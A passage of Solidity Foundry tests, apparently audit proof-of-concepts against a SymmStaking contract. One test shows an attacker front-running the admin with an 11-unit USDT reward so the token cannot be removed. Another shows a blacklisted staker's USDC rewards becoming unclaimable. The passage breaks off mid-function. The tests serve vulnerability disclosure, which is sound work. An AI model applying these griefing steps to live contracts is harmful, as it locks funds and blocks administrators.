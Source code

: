 ```Solidity

        // Now the admin wants to set the reward token to false but he gets frontrun by the attacker
        // this prevents the admin from removing the reward token
        _amounts[0] = 11;
        deal(address(usdt), address(attacker), 11);

        usdt.approve(address(staking), 11);
        staking.notifyRewardAmount(tokens, _amounts);
        vm.stopPrank();

        pendingRewards = staking.pendingRewards(address(usdt));
        assertEq(pendingRewards, 11);

        // Admin tries to remove USDT from reward tokens but it fails
        vm.prank(admin);
        vm.expectRevert(abi.encodeWithSelector(SymmStaking.OngoingRewardPeriodForToken.selector, address(usdt), 11));
        staking.configureRewardToken(address(usdt), false);
    }

    function test_blacklistAttack() public {
        address attacker = users[1];
        // 1. Attacker deposits tokens
        uint256 attackerDepositAmount = 10000e18;

        vm.prank(attacker);
        staking.deposit(attackerDepositAmount, attacker);

        // 2. Admin notifies rewards
        address[] memory tokens = new address[](1);
        tokens[0] = address(mockUSDCBlacklist);
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 604800e6; // 1 week of rewards

        vm.prank(admin);
        mockUSDCBlacklist.approve(address(staking), 604800e6);
        vm.prank(admin);
        staking.notifyRewardAmount(tokens, _amounts);

        // 3. Fast forward half the reward duration
        uint256 halfDuration = 302400; // Half of reward duration
        vm.warp(block.timestamp + halfDuration);

        // 4. Blacklist the attacker
        vm.prank(mockUSDCBlacklist.owner());
        mockUSDCBlacklist.setBlacklisted(attacker, true);

        // 6. Fast forward to end of reward period
        vm.warp(block.timestamp + halfDuration + 100000); // Add some extra time

        // 7. Attacker tries to claim rewards but fails due to blacklist
        vm.prank(attacker);
        vm.expectRevert("Receiver is blacklisted");
        staking.claimRewards();

        // 8. Admin tries to claim for attacker but also fails
        vm.prank(admin);
        vm.expectRevert("Receiver is blacklisted");
        staking.claimFor(attacker);

        // 9. Check that there are still pending rewards for the attacker
        uint256 pendingRewards = staking.earned(attacker, address(mockUSDCBlacklist));
```